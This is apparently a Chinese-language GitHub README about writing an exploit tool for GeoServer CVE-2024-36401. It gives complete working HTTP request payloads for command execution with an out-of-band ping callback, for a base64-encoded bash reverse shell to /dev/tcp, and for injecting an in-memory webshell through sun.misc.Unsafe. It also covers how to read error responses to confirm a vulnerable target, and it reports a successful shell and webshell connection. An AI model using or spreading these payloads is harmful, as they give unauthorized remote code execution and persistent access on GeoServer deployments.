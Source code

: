 # geoserver CVE-2024-36401 漏洞利用工具

geoserver CVE-2024-36401

原本没打算写的，主要是想着直接去搜一下工具，直接用着方便就OK了

找到一个geoserver CVE-2024-36401漏洞利用工具

GeoServer 综合漏洞扫描工具V1.2 发布！

![image](https://github.com/MInggongK/geoserver-/blob/main/dsfdsf.png)

但是实际使用下来感觉到这个工具稍微有点尴，作者说是go语言写的，速度极快，主要表现是两点

1、闪退，不明原因的闪退，检测都要闪退

2、使用yakit漏洞是存在的，但是他这个工具不存在，就没明白怎么回事，估计是他的判断逻辑上出了问题

那么就想着能不能自己写一个试试

但是发现这个漏洞实际写下来，也没那么简单

那个作者说新版发布了,最新的版本是GeoServer 综合漏洞扫描工具V1.2，实际上发现他的新版也还是那样尴，愿意在于，同样的站，他那个工具根本检测不到漏洞

我很好奇他的判断逻辑，到底问题出在哪，如果最基本的逻辑判断出问题，那么后续的都会出问题，如果本来有漏洞的站，你这个工具检测不出来，理论上说明这个工具写的就存在严重的bug

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/fgdsgds.png)

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/dfsfsdf.png)

换成自己写的就可以检测到漏洞

![image](https://github.com/MInggongK/geoserver-/blob/main/geoservers/fdgdfg.png)


简单说一下编写思路吧

1，默认payload:

POST /geoserver/wfs HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Host: xxxx
Accept-Language: en-US;q=0.9,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
xmlns:topp='http://www.openplans.org/topp'
xmlns:fes='http://www.opengis.net/fes/2.0'
xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'ping wsn9.callback.red')</wfs:valueReference>
</wfs:GetPropertyValue>

那么注意这里： <wfs:Query typeNames='sf:archsites'/>

这个地方，如果你需要采取正则的方式去拿到，这个是sf:archsites网站的一个基本标识，你需要先拿到他的

<wfs:ReturnFeatureType>(.*?)</wfs:ReturnFeatureType>信息，然后你可以采取拼接的方式

判断漏洞的时候
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'ping wsn9.callback.red')</wfs:valueReference>
  
  这个地方，其实都不用去查找dns记录
  
  简单的逻辑就是判断是否存在异常的类
  
  如java.lang.ClassCastException
  
当然，这只是判断逻辑

这个回显本来就是400，这个地方容易踩坑，你需要判断错误页面后，进行数据查找

首先你需要请求一个
<wfs:ListStoredQueries service='WFS'\n" +
 " version='2.0.0'\n" +
 " xmlns:wfs='http://www.opengis.net/wfs/2.0'/>
 
 这个信息代表了你可以拿到他的<wfs:ReturnFeatureType>(.*?)</wfs:ReturnFeatureType>
 
 然后直接赋值给文本，然后再调一个函数方法，把文本的截取的信息，拼接到参数的<wfs:Query typeNames='sf:archsites'/>这里
 
 这条就会对判断的逻辑相对精准，检测类就这么写就可以了
 
 如果你只是一直使用 <wfs:Query typeNames='sf:archsites'/>，那么误判的几率很高，会提示找不到这个sf:archsites

 反弹类
 
我们看看反弹的payload:

POST /geoserver/wfs HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: JSESSIONID=5D030E92A0AFCC3B5006597E6524FD8D
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Content-Type: application/xml
Content-Length: 438

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}')</wfs:valueReference>
</wfs:GetPropertyValue>

我们注意这里：

<wfs:Query typeNames='sf:archsites'/>

同样，先要正则取值然后拼接给他

然后直接请求

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvOTk5OSAwPiYx这里是加密过的base64

编写的时候，就把用户输入的bash -i >& /dev/tcp/127.0.0.1/9999 0>&1，转换成base64就可以了

然后发请求，同样，去找关键的异常类，判断逻辑即可

内存马注入类
这个地方
POST /geoserver/wfs HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Host: xxx
Accept-Language: en-US;q=0.9,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 20383

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'
var str="";
var bt;
try {
    bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
} catch (e) {
    bt = java.util.Base64.getDecoder().decode(str);
}
var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafe.setAccessible(true);
unsafe = theUnsafe.get(null);
unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), bt, null).newInstance();
')</wfs:valueReference>
</wfs:GetPropertyValue>

这个地方还是有  <wfs:Query typeNames='sf:archsites'/>，老规矩，先取值

在star这里，放入你生成的base64的内存马加密代码

然后判断逻辑即可

容易踩坑的点
1、  <wfs:Query typeNames='sf:archsites'/>重复利用，误判几率98%，报错如下：

https://geoserver.epic.blue/geoserver/schemas/ows/1.1.0/owsAll.xsd">
<ows:Exception exceptionCode="InvalidParameterValue" locator="typeName">
<ows:ExceptionText>Could not locate {http://www.openplans.org/spearfish}archsites in catalog.<

存在漏洞的点：
<ows:Exception exceptionCode="NoApplicableCode">
<ows:ExceptionText>java.lang.ClassCastException: class java.lang.ProcessImpl cannot be cast to class org.opengis.feature.type.AttributeDescriptor (java.lang.ProcessImpl is in module java.base of loader &amp;apos;bootstrap&amp;apos;; org.opengis.feature.type.AttributeDescriptor is in unnamed module of loader org.apache.catalina.loader.ParallelWebappClassLoader @4b9df8a)
class java.lang.ProcessImpl cannot be cast to class org.opengis.feature.type.AttributeDescriptor (java.lang.ProcessImpl is in module java.base of loader &amp;apos;bootstrap&amp;apos;; org.opengis.feature.type.AttributeDescriptor is in unnamed module of loader org.apache.catalina.loader.ParallelWebappClassLoader @4b9df8a)</ows:ExceptionText>
</ows:Exception>

简单来讲存在漏洞就是java.lang.ClassCastException

误判就是Could not locate {http://www.openplans.org/spearfish}archsites in catalog

2、判断方式：
抓取调用的wfs:ReturnFeatureType>，赋给文本-文本调用函数方法，请求，拼接在请求，判断回显的异常

文本调用函数这里，需要提前给值，这样防止出现空指针异常，请求前拼接，判断回显的异常，是异常内进行判断

最终我们实现了这个漏洞利用工具的编写

![image](https://github.com/MInggongK/geoserver-/blob/main/dfdsfdf.png)

我们来测试一下漏洞

![image](https://github.com/MInggongK/geoserver-/blob/main/dsfsdfsd.png)

我们检测到了漏洞，拿到了端点，反弹shell也成功了

接下来我们来试试注入内存马

![image](https://github.com/MInggongK/geoserver-/blob/main/gfdgfdg.png)

显示是成功注入内存马，我们来连接看看是否成功

![image](https://github.com/MInggongK/geoserver-/blob/main/fdgdgds.png)

是可以连接的



















 
            

  

